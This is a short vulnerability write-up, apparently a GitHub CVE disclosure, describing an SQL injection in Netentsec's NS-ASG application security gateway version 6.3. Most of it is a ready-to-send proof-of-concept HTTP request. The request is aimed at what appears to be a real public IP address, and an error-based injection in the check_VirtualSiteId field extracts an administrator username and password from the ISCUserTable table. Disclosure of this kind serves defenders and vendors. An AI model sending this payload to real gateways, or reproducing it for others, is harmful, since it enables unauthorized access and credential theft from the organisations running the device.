 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

```
POC：
POST /vpnweb/index.php?para=index HTTP/1.1
Host: 1.85.53.53
Cookie: PHPSESSID=ef8b794249b78ad974d5db4f4fde5aba
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 288
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
Te: trailers
Connection: close

check_username=admin&check_username1=1&check_passwd=321&action=login_check&check_VirtualSiteId=1/**/and/**/1=(updatexml(1,concat(0x5e24,(select/**/concat(username,0x3a,password)/**/from/**/ISCUserTable/**/limit/**/1),0x5e24),1))#&imgcode=undefined&selvalue=2&BackgroundName=background.gif


```
<img width="621" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/8fcb680a-8ba6-4c74-b339-97f70bcb35bc">

